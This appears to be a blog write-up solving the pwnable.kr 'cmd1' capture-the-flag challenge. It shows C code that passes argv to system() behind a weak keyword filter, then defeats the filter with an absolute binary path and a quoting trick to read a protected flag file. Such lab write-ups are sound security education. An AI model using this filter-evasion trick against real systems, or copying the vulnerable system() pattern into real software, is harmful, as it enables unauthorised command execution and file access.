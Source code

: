```yaml
---
layout:     post
title:      "Pwnable.kr - cmd1"
date:       2018-03-10 0:00:00
author:     "W3ndige"
permalink: /:title/
category: 'Pwnable'
---
```


Welcome to the next challenge called ***cmd1*** from [pwnable.kr](http://pwnable.kr "pwnable.kr").

{% highlight text %}
Mommy! what is PATH environment in Linux?
{% endhighlight %}

### Solution

Firstly, as usual, we're going to log into the provided ssh server.

{% highlight bash %}
main:~ > ssh cmd1@pwnable.kr -p2222
cmd1@pwnable.krs password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Sat Mar 10 07:15:51 2018 from 87.180.119.209
cmd1@ubuntu:~$ ls -la
total 40
drwxr-x---  5 root cmd1     4096 Oct 23  2016 .
drwxr-xr-x 87 root root     4096 Dec 27 23:17 ..
d---------  2 root root     4096 Jul 12  2015 .bash_history
-r-xr-sr-x  1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r--  1 root root      319 Jul 14  2015 cmd1.c
-r--r-----  1 root cmd1_pwn   48 Jul 14  2015 flag
dr-xr-xr-x  2 root root     4096 Jul 21  2015 .irssi
drwxr-xr-x  2 root root     4096 Oct 23  2016 .pwntools-cache
{% endhighlight %}

Now we're ready to view the source code of the provided challenge files.

{% highlight c %}
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
{% endhighlight %}

First thing that is ready to exploit is that if we provide correct argument, program will put it to the `system()` function that will run the code. But the first obstacle is that the input is being filtered through the `filter()` function that will stop execution if the passed argument contains words like `flag`, `sh` or `tmp`.

So we need to enter something along the lines of `cat flag`, but that of course will not execute. But finding that running only `cat` program fails, made me think more about the `putenv()` function.

{% highlight bash %}
cmd1@ubuntu:~$ ./cmd1 "cat fla"
sh: 1: cat: not found
{% endhighlight %}

If we view the PATH environment variables, we can see that the list contains all directories where the binaries are located.

{% highlight bash %}
cmd1@ubuntu:~$ env | grep PATH
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
{% endhighlight %}

So the program overwriting this, will force us to enter the whole path of `cat` binary.

{% highlight bash %}
cmd1@ubuntu:~$ ./cmd1 "/bin/cat fla"
/bin/cat: fla: No such file or directory
{% endhighlight %}

One thing solved. Now we have to somehow obfuscate the `flag` word in a way that filter will not catch.

{% highlight bash %}
cmd1@ubuntu:~$ ./cmd1 "/bin/cat 'f'lag"
mommy now I get what PATH environment is for :)
{% endhighlight %}

Luckily, this simple quotation trick makes this challenge marked as solved.
